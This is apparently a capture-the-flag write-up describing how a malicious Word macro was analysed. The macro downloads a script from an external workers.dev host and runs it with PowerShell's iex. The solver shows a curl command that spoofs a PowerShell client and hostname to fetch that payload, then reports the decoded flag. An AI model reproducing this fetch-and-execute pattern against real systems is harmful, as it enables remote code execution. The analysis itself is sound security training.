 ---
1. olevba the docm and extract the macro
2. Give gpt to make sense of it. It tell about the macro, targeting DESKTOP-7XJ9ABC, download script from https://noisy-hall-fad8.oluf-sand.workers.dev and execute using iex
3. Try to get the script by providing the required details

```
curl -sS 'https://noisy-hall-fad8.oluf-sand.workers.dev' \
  -H 'User-Agent: WindowsPowerShell/5.1' \
  -H 'X-Hostname: DESKTOP-7XJ9ABC'
```

4. Decode the payload using powershell base64 (UTF-16LE) multiple times and got the flag at the end of it

`brunner{vbs_1s_th3_g1ft_th4t_k33ps_g1v1ng}`

Solved by: zeqzoq